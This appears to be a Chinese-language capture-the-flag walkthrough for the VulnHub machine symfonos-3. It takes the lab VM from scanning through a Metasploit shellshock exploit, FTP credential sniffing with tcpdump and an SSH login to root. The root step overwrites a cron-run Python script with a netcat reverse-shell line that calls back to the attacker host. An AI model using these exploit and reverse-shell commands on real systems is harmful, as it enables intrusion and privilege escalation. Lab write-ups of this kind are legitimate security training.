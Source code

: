 # symfonos-3

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-3（IP：192.168.253.138）

下载：https://www.vulnhub.com/entry/symfonos-3,332/

## Let's go

```
nmap -A 192.168.253.138
```

![](./img/symfonos3-01.png)

> **浏览网站没有任何发现**

```
dirb http://192.168.253.138/
```

![](./img/symfonos3-02.png)

> **然而还是没有发现，重新枚举，直到。。。**

![](./img/symfonos3-03.png)

> **无论访问 /cgi-bin/underworld 哪个页面都显示如下**

![](./img/symfonos3-04.png)

> **搜索发现可能存在  shellshock  ，启动msfconsole**

```
search -S cgi shellshock
use 5
show options
```

![](./img/symfonos3-05.png)

```
set rhosts 192.168.253.138
set targeturi /cgi-bin/underworld
run
```

![](./img/symfonos3-06.png)

> 尝试各种提权失败无果，使用脚本

```
cd /tmp
upload ./Get/pspy32
upload ./Get/LinEnum.sh
chmod 777 pspy32
chmod 777 LinEnum.sh
```

![](img/symfonos3-07.png)

```
shell
python -c 'import pty; pty.spawn("/bin/bash")'
./LinEnum.sh
```

![](./img/symfonos3-09.png)

![](./img/symfonos3-10.png)

```
./pspy32
```

![](./img/symfonos3-11.png)

> **发现计划任务，并且和ftp有关，抓包嗅探一下**

```
tcpdump -D
tcpdump -w ftp.pcap -i lo
```

![](./img/symfonos3-12.png)

```
download ftp.pcap ./
```

![](./img/symfonos3-13.png)

![](./img/symfonos3-14.png)

```
ssh hades@192.168.253.138
password:PTpZTfU4vxgzvRBE
ls -al /opt/ftpclient/
```

![](./img/symfonos3-15.png)

> **上面得到过 ftpclient.py 是root的计划任务**

```
cd /opt/ftpclient/
echo 'import os; os.system("nc -e /bin/bash 192.168.253.136 4444")' > ftpclient.py
```

![](./img/symfonos3-16.png)

```
nc -lp 4444
cat /root/proof.txt
```

![](./img/symfonos3-17.png)